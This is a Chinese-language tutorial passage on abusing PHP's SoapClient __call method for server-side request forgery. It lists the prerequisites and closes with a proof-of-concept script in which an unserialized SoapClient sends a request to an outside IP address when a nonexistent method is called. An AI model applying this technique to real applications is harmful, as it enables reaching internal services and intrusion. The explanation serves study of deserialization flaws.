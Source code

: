 > `SoapClient::__call`：由于当`__call`方法被触发后，它可以发送`HTTP`和`HTTPS`请求，因此可以进行`SSRF`利用

```php
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])

[1] 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式
[2] 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri是SOAP服务的目标命名空间，第二个参数允许设置user_agent选项来设置请求的user-agent头
```
```php
SoapClient::__call ( string $name , array $args ) : mixed
```

> 利用前提
```
[1] 需要有soap扩展，且需要手动开启
[2] 需要调用一个不存在的方法触发其__call()函数
[3] 仅限于http/https协议
```

> 在`PHP-manual`种对`SOAP`介绍是：`The SOAP extension can be used to write SOAP Servers and Clients. It supports subsets of » SOAP 1.1, » SOAP 1.2 and » WSDL 1.1 specifications.`，其实简单地说，`SOAP`就是一种简单的基于`XML`的协议，它使应用程序通过`HTTP`来交换信息

> 例如如下代码使用腾讯开放的查询QQ号是否在线的普通的`soap`调用

```php
<?php
$url = "http://www.webxml.com.cn/webservices/qqOnlineWebService.asmx?wsdl";
$client = new SoapClient($url);

$params = array(
    "qqCode"=> "1448404788"
);
$result = $client->qqCheckOnline($params);
print_r($result);
?>

stdClass Object
(
    [qqCheckOnlineResult] => Y
)
```
### 使用 SoapClient 类进行 SSRF

> 测试代码：
```php
<?php
ini_set('soap.wsdl_cache_enabled',0);
ini_set('soap.wsdl_cache_ttl',0);
$url = 'http://185.194.148.106:8888/';
$demo = new SoapClient(null,array('location'=>$url, 'uri'=>$url));
$test = unserialize(serialize($demo));
$test->H3rmesk1t();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```